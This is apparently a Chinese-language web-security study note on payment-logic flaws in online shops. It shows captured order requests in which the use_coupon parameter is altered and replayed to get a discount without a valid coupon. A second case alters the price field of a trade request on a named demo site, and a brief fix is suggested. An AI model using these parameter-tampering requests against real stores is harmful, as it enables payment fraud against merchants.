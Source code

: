 ```plain
没有使用优惠券，抓包
goods_sku_list=1%3A1&leavemessage=&use_coupon=0&integral=0&account_balance=0&pay_type=0&buyer_invoice=&pick_up_id=0&express_company_id=1
```

![1648270460309-f0d56f9b-b73d-4c2a-84ab-6aaefaa5be6d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913133225174-1964187695.png)

```plain
对比两个数据包的值：
使用：goods_sku_list=1%3A1&leavemessage=&use_coupon=3&integral=0&account_balance=0&pay_type=0&buyer_invoice=&pick_up_id=0&express_company_id=1
不使用：goods_sku_list=1%3A1&leavemessage=&use_coupon=0&integral=0&account_balance=0&pay_type=0&buyer_invoice=&pick_up_id=0&express_company_id=1

use_coupon这个值是不同的。

优惠券 
		只能领取一次
    重复使用-重放数据包
    
暂定认为这个优惠券是有个编号的，再次领取优惠券进行购买查看一下数据包

goods_sku_list=1%3A1&leavemessage=&use_coupon=4&integral=0&account_balance=0&pay_type=0&buyer_invoice=&pick_up_id=0&express_company_id=1
这个时候的use_coupon=4，所以这个use_coupon的值来判断优惠券	

那么是不是可以尝试不使用优惠券，把use_coupon这个值修改，也可以达到享受优惠券这个效果呢？

抓取未使用优惠券的数据包，进行修改：

goods_sku_list=1%3A1&leavemessage=&use_coupon=10&integral=0&account_balance=0&pay_type=0&buyer_invoice=&pick_up_id=0&express_company_id=1
放出数据包，得到800的价格。
```

![1648271175618-763e378e-03a3-4e6f-aebf-3a521081194b.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913133224821-1878511801.png)

```plain
能不能再次使用这个优惠券，抓包
goods_sku_list=1%3A1&leavemessage=&use_coupon=10&integral=0&account_balance=0&pay_type=0&buyer_invoice=&pick_up_id=0&express_company_id=1
修改，重放，还是能使用这张优惠券

修复：把优惠券加密，或者存放在数据库中，加密放在别的地方，让别人猜。
```

- 某实例-演示站交易支付逻辑安全

```plain
guarantee1


__token__=a7146a632a21b04459f29d6717970f5a&id=11&title=%E6%88%BF%E5%9C%B0%E4%BA%A7%E7%BD%91%E7%AB%99%EF%BC%8C%E6%9D%836%E7%AB%99+%E5%A4%9A%E5%B9%B4%E8%80%81%E7%AB%99+%E7%9B%AE%E5%89%8DIP1.6%E4%B8%87+%E6%97%A5%E6%94%B6%E5%BD%9510w%2B&id_type=1&username=admin&price=6000.00&fee_type=1&buyer_pay=6180&seller_get=6000
修改price就可以得到。




qilecms.com


关了。
```